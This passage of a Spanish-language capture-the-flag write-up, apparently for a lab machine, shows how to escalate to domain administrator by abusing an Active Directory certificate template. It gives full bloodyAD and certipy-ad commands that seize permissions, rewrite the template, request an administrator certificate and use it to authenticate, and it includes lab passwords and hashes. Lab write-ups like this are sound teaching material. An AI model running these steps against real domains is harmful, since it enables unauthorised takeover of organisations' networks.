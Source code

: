 
aunque esta plantilla tiene una limitacion, y es que no podemos agregar un SAN arbitrario porque enrolle supplies subject es false:
<img src="/images/writeup-escapetwo/Pasted image 20250507093222.png">

para explotar esto, vamos primero a modificar la plantilla 

pero por el reinicio, debemos habilitar los permisos del usuario de nuevo (si te da error)
```bash
bloodyAD --host 10.129.231.236 -d sequel.htb -u ryan -p WqSZAF6CysDQbGb3 set owner CA_SVC RYAN  
```
luego:
```
bloodyAD --host 10.129.231.236 -d sequel.htb -u ryan -p WqSZAF6CysDQbGb3 add genericAll CA_SVC RYAN
```

para volver la plantilla vulnerable y modificarle los permisos y a la vez creando una copia de seguridad:
```bash
certipy-ad template -username 'ca_svc@sequel.htb' -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -template DunderMifflinAuthentication -save-old
```

y para pedir el certificado como administradores asignandonos un SAN aletorio porque ahora lo podemos controlar, vamos a usar:
```bash
certipy-ad req -username 'ca_svc@sequel.htb' -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -ca sequel-DC01-CA -target DC01.sequel.htb -template DunderMifflinAuthentication -upn administrator@sequel.htb
```

eso nos deja un archivo .pfx:

<img src="/images/writeup-escapetwo/Pasted image 20250507100056.png">

que usaremos para tener un hash como administrador:
```bash
certipy-ad auth -pfx administrator.pfx -domain sequel.htb
```



con esto, nos dará el hash y lo almacenara directamente en una variable, asi que solo debemos actualizar la kerb5 para que valga lo mismo y nos podremos autenticar:
```bash
export KRB5CCNAME=administrator.ccache
```

<img src="/images/writeup-escapetwo/Pasted image 20250507101057.png">
